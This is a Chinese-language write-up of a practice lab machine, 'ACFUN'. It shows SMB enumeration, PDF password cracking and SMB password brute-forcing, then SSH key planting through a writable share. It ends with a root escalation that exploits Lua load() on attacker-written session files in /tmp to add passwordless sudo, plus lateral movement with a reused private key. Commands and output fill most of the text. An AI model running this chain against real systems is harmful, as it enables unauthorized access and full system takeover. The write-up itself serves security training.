## 端口扫描

```bash
(base) ┌──(root㉿kali)-[~]
└─# nmap -sV -A 192.168.56.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-27 02:21 UTC
Nmap scan report for 192.168.56.163
Host is up (0.0010s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 10.0 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.21.9 (workgroup: WORKGROUP)
MAC Address: 08:00:27:37:69:22 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: ACFUN

Host script results:
|_clock-skew: mean: -2h40m01s, deviation: 4h37m07s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.21.9)
|   Computer name: localhost
|   NetBIOS computer name: ACFUN\x00
|   Domain name: 
|   FQDN: localhost
|_  System time: 2026-04-27T10:21:22+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ACFUN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2026-04-27T02:21:22
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 192.168.56.163

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.66 seconds
```

## 445/tcp

没 web 端口。先看 SMB 吧，使用 `enum4linux-ng` 枚举一下

```bash
(base) ┌──(root㉿kali)-[~]
└─# enum4linux-ng -A 192.168.56.163
ENUM4LINUX - next generation (v1.3.7)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.56.163
[*] Username ......... ''
[*] Random Username .. 'ezaxvcwt'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.56.163    |
 =======================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.56.163    |
 =============================================================
[+] Got domain/workgroup name: WORKGROUP
[+] Full NetBIOS names information:
- ACFUN           <00> -         B <ACTIVE>  Workstation Service
- ACFUN           <03> -         B <ACTIVE>  Messenger Service
- ACFUN           <20> -         B <ACTIVE>  File Server Service
- ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
- WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
- WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
- WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
- MAC Address = 00-00-00-00-00-00

 ===========================================
|    SMB Dialect Check on 192.168.56.163    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: true
  SMB 2.0.2: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 =============================================================
|    Domain Information via SMB session for 192.168.56.163    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: ACFUN
NetBIOS domain name: ''
DNS domain: ''
FQDN: localhost
Derived membership: workgroup member
Derived domain: unknown

 ===========================================
|    RPC Session Check on 192.168.56.163    |
 ===========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[+] Server allows authentication via username 'ezaxvcwt' and password ''
[H] Rerunning enumeration with user 'ezaxvcwt' might give more results

 =====================================================
|    Domain Information via RPC for 192.168.56.163    |
 =====================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

 =================================================
|    OS Information via RPC for 192.168.56.163    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix (Samba 4.21.9)
OS version: '6.1'
OS release: ''
OS build: '0'
Native OS: Windows 6.1
Native LAN manager: Samba 4.21.9
Platform id: '500'
Server type: '0x809a03'
Server type string: Wk Sv PrQ Unx NT SNT Samba Server

 =======================================
|    Users via RPC on 192.168.56.163    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[+] Found 1 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 1 user(s) via 'enumdomusers'
[+] After merging user results we have 1 user(s) total:
'1000':
  username: leaf
  name: ''
  acb: '0x00000010'
  description: ''

 ========================================
|    Groups via RPC on 192.168.56.163    |
 ========================================
[*] Enumerating local groups
[+] Found 0 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 0 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 0 group(s) via 'enumdomgroups'

 ========================================
|    Shares via RPC on 192.168.56.163    |
 ========================================
[*] Enumerating shares
[+] Found 2 share(s):
IPC$:
  comment: IPC Service (Samba Server)
  type: IPC
public:
  comment: ''
  type: Disk
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share public
[+] Mapping: OK, Listing: OK

 ===========================================
|    Policies via RPC for 192.168.56.163    |
 ===========================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:
  Password history length: None
  Minimum password length: 5
  Minimum password age: none
  Maximum password age: 49710 days (136 years) 6 hours 21 minutes
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: false
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: 49710 days (136 years) 6 hours 21 minutes

 ===========================================
|    Printers via RPC for 192.168.56.163    |
 ===========================================
[+] No printers returned (this is not an error)

Completed after 1.81 seconds
```



发现如下信息：

- 主机名是 `ACFUN`
- 可以匿名访问
- 枚举到了一个用户：leaf
- 枚举到了一个共享：public
- 密码策略较弱，最短密码长度 5，复杂度未开启

在加个 -R 参数还能枚举到一个用户 **xueli**

```bash
enum4linux-ng -A -R 10
```

然后先连接匿名共享，发现有个 pdf 直接下载下来

```bash
(base) ┌──(root㉿kali)-[~]
└─# smbclient -N //192.168.56.163/public
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr 26 08:04:33 2026
  ..                                  D        0  Sun Apr 26 08:04:33 2026
  ACF_Framework_Internal_Guide.pdf      N     3020  Sun Apr 26 08:04:25 2026

                9468048 blocks of size 1024. 708228 blocks available
smb: \> get ACF_Framework_Internal_Guide.pdf /tmp/ACF_Framework_Internal_Guide.pdf
getting file \ACF_Framework_Internal_Guide.pdf of size 3020 as /tmp/ACF_Framework_Internal_Guide.pdf (491.5 KiloBytes/sec) (average 491.5 KiloBytes/sec)
smb: \> 
```

打开发现要密码



尝试爆破一下密码，先提取哈希：

```bash
(base) ┌──(root㉿kali)-[~]
└─# pdf2john /tmp/ACF_Framework_Internal_Guide.pdf > /tmp/acf_pdf.hash
                                                                                                                                                       
(base) ┌──(root㉿kali)-[~]
└─# cat /tmp/acf_pdf.hash
/tmp/ACF_Framework_Internal_Guide.pdf:$pdf$2*3*128*2147483644*1*16*eaf858bf9a202826f048f9e8927c33c0*32*b638e2822a306edc2e0d5f04c4fd0ef000000000000000000000000000000000*32*3863fe1ffbc881b421b301c8c0cd614a0c9bb69ed8341f042a3348c507d3a522
                                                                                                                                                       
```

然后使用 john 进行爆破拿到密码，`1234567890`

```bash
(base) ┌──(root㉿kali)-[~]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/acf_pdf.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 3 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1234567890       (/tmp/ACF_Framework_Internal_Guide.pdf)     
1g 0:00:00:00 DONE (2026-04-27 02:34) 100.0g/s 12800p/s 12800c/s 12800C/s 123456..diamond
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed. 
                      
```



打开 pdf 后发现应该是基于 Alpine 的 ACF 管理框架的一些说明。

- 出现了 `leaf@acfun.dsz`
- 出现了 `ACF / Alpine Configuration Framework` 相关描述

## leaf shell

用户已经有了，密码策略又弱，接下就是对 `leaf` 做 SMB 登录验证。

```bash
head -n 5000 /usr/share/wordlists/rockyou.txt > /tmp/top5000.txt
netexec smb 192.168.56.163 -u leaf -p /tmp/top5000.txt --local-auth --no-progress
```

- --local-auth 表示按本地账户认证，不按域账户逻辑



拿到凭证 `ACFUN\leaf:gothic`，先看 `leaf` 共享内容：

```bash
(base) ┌──(root㉿kali)-[~/webtools/dictionary]
└─# smbclient //192.168.56.163/leaf -U leaf%gothic
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Apr 27 00:58:05 2026
  ..                                  D        0  Mon Apr 27 00:58:05 2026
  .ssh                               DH        0  Mon Apr 27 01:00:04 2026

                9468048 blocks of size 1024. 707124 blocks available
smb: \> 
```

进入后能看到 `.ssh` 目录，里面有：

- `id_ed25519`
- `id_ed25519.pub`

尝试发现有写入的权限，然后生成一个密钥：

```bash
ssh-keygen -t ed25519 -N "" -f /tmp/leaf_key
```

然后把公钥传上去：

```bash
                                                                                                                                                       
(base) ┌──(root㉿kali)-[~/webtools/dictionary]
└─# smbclient //192.168.56.165/leaf -U leaf%gothic
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr 26 07:53:08 2026
  ..                                  D        0  Sun Apr 26 07:53:08 2026
  .ssh                               DH        0  Sun Apr 26 08:10:23 2026

                9468048 blocks of size 1024. 708292 blocks available
smb: \> put /tmp/leaf_key.pub .ssh/authorized_keys
putting file /tmp/leaf_key.pub as \.ssh\authorized_keys (17.8 kB/s) (average 17.8 kB/s)
smb: \> 
```

上传成功后直接登录：

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# ssh -i /tmp/leaf_key leaf@192.168.56.165
The authenticity of host '192.168.56.165 (192.168.56.165)' can't be established.
ED25519 key fingerprint is SHA256:xJ90oWmr5sPR2afHz9etzSdtxINmLI+JvbwgV/iCsWY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
    ~/.ssh/known_hosts:29: [hashed name]
    ~/.ssh/known_hosts:31: [hashed name]
    ~/.ssh/known_hosts:36: [hashed name]
    ~/.ssh/known_hosts:44: [hashed name]
    ~/.ssh/known_hosts:45: [hashed name]
    ~/.ssh/known_hosts:57: [hashed name]
    ~/.ssh/known_hosts:62: [hashed name]
    (3 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.165' (ED25519) to the list of known hosts.
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

leaf@Acfun:~$ id
uid=1000(leaf) gid=1000(leaf) groups=1000(leaf)
leaf@Acfun:~$ 
```



## root shell

没有 `sudo -l	` ，查看 SUID 

```bash
leaf@Acfun:~$ find / -user root -perm -4000 -print 2>/dev/null
/bin/umount
/bin/bbsuid
/bin/mount
/usr/bin/haserl-lua5.4
/usr/bin/expiry
/usr/bin/chsh
/usr/bin/chage
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
leaf@Acfun:~$ 
```

查看进程（`ps -ef`）发现有  `mini_httpd`

```bash
 2267 nobody    0:00 /usr/sbin/mini_httpd -i /run/mini_httpd/mini_httpd.pid -C /etc/mini_httpd/mini_httpd.conf
```

先查配置：

```bash
leaf@Acfun:~$ grep -RIn 'mini_httpd\|cgipat\|dir=' /etc/mini_httpd /etc/init.d/mini_httpd
/etc/mini_httpd/mini_httpd.conf:2:dir=/usr/share/acf/www
/etc/mini_httpd/mini_httpd.conf:4:cgipat=cgi-bin**
/etc/mini_httpd/mini_httpd.conf:5:certfile=/etc/ssl/mini_httpd/server.pem
/etc/init.d/mini_httpd:7:cfgfile=/etc/mini_httpd/$RC_SVCNAME.conf
/etc/init.d/mini_httpd:8:pidfile=/run/mini_httpd/$RC_SVCNAME.pid
/etc/init.d/mini_httpd:9:command=/usr/sbin/mini_httpd
leaf@Acfun:~$ 
```

重要结果是：

- Web 根目录：`/usr/share/acf/www`
- CGI 匹配：`cgipat=cgi-bin**`
- 监听地址：`127.0.0.1`
- 监听端口：`443`

这说明外部根本扫不到这个管理面，它只对本机开放。确认本地入口页面是否真实可访问：

```bash
leaf@Acfun:~$ wget -qSO- --no-check-certificate https://127.0.0.1/cgi-bin/acf
  HTTP/1.0 302 Found
  Status: 302 Moved
  Location: /cgi-bin/acf/acf-util/welcome/read
  HTTP/1.0 200 OK
  Status: 200 OK
  Content-Type: text/html
  Set-Cookie: sessionid=cC8hpBpQ-BPwD13aDOGcVktiSumtXlB5Ro9gwEPrj_2MtieMpcKFNkaKQlbj6gId3PRkxtFlGBR9Cvfj2Fbmme; path=/; 
  

<!DOCTYPE html>
<!--[if IE 6]> <html class="ie6"> <![endif]-->
<!--[if IE 7]> <html class="ie7"> <![endif]-->
<!--[if IE 8]> <html class="ie8"> <![endif]-->
<!--[if gt IE 8]><!--> <html> <!--<![endif]-->
        <head>
                <meta charset="utf-8">
                <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">

```

下面就是 ai 审计的源码。

**定位会话处理逻辑**

核心控制逻辑在 `/usr/share/acf/app/acf_www-controller.lua`

```lua
-- Make sure we have some kind of sane defaults for libdir, wwwdir, and sessiondir
self.conf.libdir = self.conf.libdir or ( string.match(self.conf.appdir, "[^,]+/") .. "/lib/" )
self.conf.wwwdir = self.conf.wwwdir or ( string.match(self.conf.appdir, "[^,]+/") .. "/www/" )
self.conf.sessiondir = self.conf.sessiondir or "/tmp/"
self.conf.script = ENV.SCRIPT_NAME
self.clientdata = FORM
self.conf.clientip = ENV.REMOTE_ADDR

sessionlib=require ("session")

-- before we look at sessions, remove old sessions and events
sessionlib.expired_events(self.conf.sessiondir, self.conf.sessiontimeout)

-- Load the session data
self.sessiondata = nil
self.sessiondata = {}
if nil ~= self.clientdata.sessionid then
	local timestamp
	timestamp, self.sessiondata =
		sessionlib.load_session(self.conf.sessiondir,
			self.clientdata.sessionid)
	if timestamp == nil then
		sessionlib.record_event(self.conf.sessiondir, nil, self.conf.clientip)
	else
		if self.sessiondata.userinfo and self.sessiondata.userinfo.userid and sessionlib.count_events(self.conf.sessiondir, self.sessiondata.userinfo.userid, self.conf.clientip, self.conf.lockouttime, self.conf.lockouteventlimit) then
			sessionlib.unlink_session(self.conf.sessiondir, self.clientdata.sessionid)
			self.sessiondata.id = nil
		end
	end
end

if nil == self.sessiondata.id then
	self.sessiondata = {}
	self.sessiondata.id = sessionlib.random_hash(512)
end
if nil == self.sessiondata.permissions or nil == self.sessiondata.menu then
	build_menus(self)
end
```

`self.conf.sessiondir = self.conf.sessiondir or "/tmp/"`

- 这行的含义是：如果配置里没有额外覆盖，会话文件默认放在 `/tmp/`
- 对攻击者来说，这几乎是最理想的位置，因为普通低权限用户通常都能往 `/tmp` 写文件

`timestamp, self.sessiondata = sessionlib.load_session(self.conf.sessiondir, self.clientdata.sessionid)`

- 这行是整条利用链的中心
- 它会调用 `sessionlib.load_session(...)`，从 `sessiondir` 里读取指定 `sessionid` 对应的会话文件

如果 `sessionid` 由我们控制，而 `sessiondir` 又是可写的 `/tmp/`，那么本质上就是：

$$
\text{攻击者可控文件路径} = /tmp/session.\text{sessionid}
$$

只要 `load_session()` 对这个文件做了危险处理，就能直接形成代码执行。

**漏洞点：**

真正的漏洞实现位于 `/usr/share/acf/lib/session.lua`。相关核心代码如下：

```lua
mymodule.save_session = function( sessionpath, sessiontable)
	if nil == sessiontable or nil == sessiontable.id then return false end

	local id = sessiontable.id
	sessiontable.id = nil

	if #sessiontable then
		local output = {}
		output[#output+1] = "-- This is an ACF session table."
		output[#output+1] = "local " .. mymodule.serialize("s", sessiontable)
		output[#output+1] = "return s"
		local content = table.concat(output, "\n") .. "\n"

		if content ~= cached_content then
			local file = io.open(sessionpath .. "/session." .. id , "w")
			if file == nil then
				sessiontable.id=id
				return false
			end

			file:write(content)
			file:close()
		end
	end

	sessiontable.id=id
	return true
end

mymodule.load_session = function ( sessionpath, session )
	if type(session) ~= "string" then return nil, {} end
	local s = {}
	session = string.gsub ( session or "", "[^" .. b64 .. "]", "")
	if #session == 0 then
		return nil, {}
	end
	local spath = sessionpath .. "/session." .. session
	local ts = posix.stat(spath, "ctime")
	if (ts) then
		local s
		for i=1,20 do
			local file = io.open(spath)
			if file then
				cached_content = file:read("*a")
				file:close()
				local IS_52_LOAD = pcall(load, '')
				if IS_52_LOAD then
					s = load(cached_content)()
				else
					s = loadstring(cached_content)()
				end
				break
			end
			sleep(10*i)
		end

		s = s or {}
		s.id = session
		return ts, s
	else
		return nil, {}
	end
end
```


`session = string.gsub ( session or "", "[^" .. b64 .. "]", "")`

- 这一行的作用是过滤 `sessionid`，只允许 base64 风格字符
- 它确实防住了路径穿越这种简单技巧
- 但是它没有防住“同名合法文件由攻击者提前创建”的情况

`local spath = sessionpath .. "/session." .. session`

- 这行把最终文件路径拼成 `/tmp/session.<sessionid>`

`cached_content = file:read("*a")`

- 这行把整个会话文件内容读进内存

`s = load(cached_content)()`

- 这一行就是漏洞点
- `load()` 会把字符串当成 Lua 代码编译并执行
- 也就是说，只要攻击者能控制 `cached_content`，就可以执行任意 Lua 代码

这条链路拼起来就是：

$$
\text{可写 } /tmp \quad + \quad \text{可控 sessionid} \quad + \quad load(\text{文件内容}) \quad = \quad \text{任意代码执行}
$$

关键的是，这段代码不是以 `leaf` 的普通 Lua 解释器在跑，而是通过 `cgi-bin/acf` 被 `haserl-lua5.4` 执行。前面系统里又存在一个带 SUID 位的 `haserl-lua5.4`，于是最终执行上下文落到了 `root`。

payload：

先写恶意 session 文件：

```bash
cat > /tmp/session.ROOTSHELL <<'EOF'
os.execute([[sh -c "printf 'leaf ALL=(ALL:ALL) NOPASSWD:ALL\n' > /etc/sudoers.d/leaf && chmod 440 /etc/sudoers.d/leaf"]])
return {}
EOF
```

- 在 /tmp/session.ROOTSHELL 写入恶意 Lua
- 当 ACF 加载这个 session 时，会以 root 身份执行：

  - 写入 /etc/sudoers.d/leaf
  - 给 leaf 开免密 sudo
- return {} 是为了让 session 加载后返回正常对象

第二步伪造一次正常的 ACF 请求，并把 `sessionid=ROOTSHELL` 送进框架

```bash
REQUEST_METHOD=GET \
QUERY_STRING='sessionid=ROOTSHELL' \
SCRIPT_NAME=/cgi-bin/acf \
PATH_INFO=/acf-util/welcome/read \
REMOTE_ADDR=127.0.0.1 \
GATEWAY_INTERFACE=CGI/1.1 \
SERVER_NAME=localhost \
SERVER_PORT=443 \
HTTPS=on \
/usr/share/acf/www/cgi-bin/acf >/dev/null 2>&1
```

- 伪造一组 CGI 环境变量
- 直接本地执行 /usr/share/acf/www/cgi-bin/acf
- QUERY\_STRING\='sessionid\=ROOTSHELL' 会让它去加载：

  - /tmp/session.ROOTSHELL
- 从而执行里面的 os.execute(...)

最后拿 root shell：

```bash
sudo -l
sudo su
id
```



## 预期解

然后作者 Sublarge 说不是预期解，并且说 leaf 和 xueli 是同一个公钥。然后就继续按照续期写了一下

- xueli 的 authorized\_keys 里信任的是 **leaf**  **原本那把公钥**
- 也就是 leaf 共享里自带的：

  - .ssh/id\_ed25519
  - .ssh/id\_ed25519.pub

然后先把私钥下载下来：

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# smbclient //192.168.56.165/leaf -U leaf%gothic
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 27 06:21:12 2026
  ..                                  D        0  Mon Apr 27 06:21:12 2026
  .ssh                               DH        0  Mon Apr 27 03:35:45 2026

                9468048 blocks of size 1024. 706612 blocks available
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Mon Apr 27 03:35:45 2026
  ..                                  D        0  Mon Apr 27 06:21:12 2026
  id_ed25519.pub                      N       92  Sun Apr 26 08:09:15 2026
  authorized_keys                     A       91  Mon Apr 27 06:16:40 2026
  id_ed25519                          N      399  Sun Apr 26 08:09:15 2026

                9468048 blocks of size 1024. 706612 blocks available

smb: \> get .ssh/id_ed25519 /tmp/leaf_id_ed25519
getting file \.ssh\id_ed25519 of size 399 as /tmp/leaf_id_ed25519 (21.6 KiloBytes/sec) (average 21.6 KiloBytes/sec)
smb: \> 

```

然后就能直接横向到  **xueli**

```bash
(base) ┌──(root㉿kali)-[/tmp]
└─# chmod 600 /tmp/leaf_id_ed25519
                                                                                                                                                       
(base) ┌──(root㉿kali)-[/tmp]
└─# ssh -i /tmp/leaf_id_ed25519 -o StrictHostKeyChecking=no xueli@192.168.56.165

              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

xueli@Acfun:~$ id
uid=1001(xueli) gid=1001(xueli) groups=1001(xueli)
xueli@Acfun:~$ 
```

发现有个文件 `/etc/acf/passwd`，可以使用 xueli 用户进行读取

```bash
xueli@Acfun:~$ ls -l /etc/acf/passwd
-rw-r-----    1 root     xueli           89 Apr 26 14:56 /etc/acf/passwd
xueli@Acfun:~$ cat /etc/acf/passwd
root:$5$rDkGkMAvv6FPpwRG$.gS5I9LcOiZDYGW598cgXDPEDvHI7GLl.UmVxgdyUQ0:Admin account:ADMIN
xueli@Acfun:~$ 
```

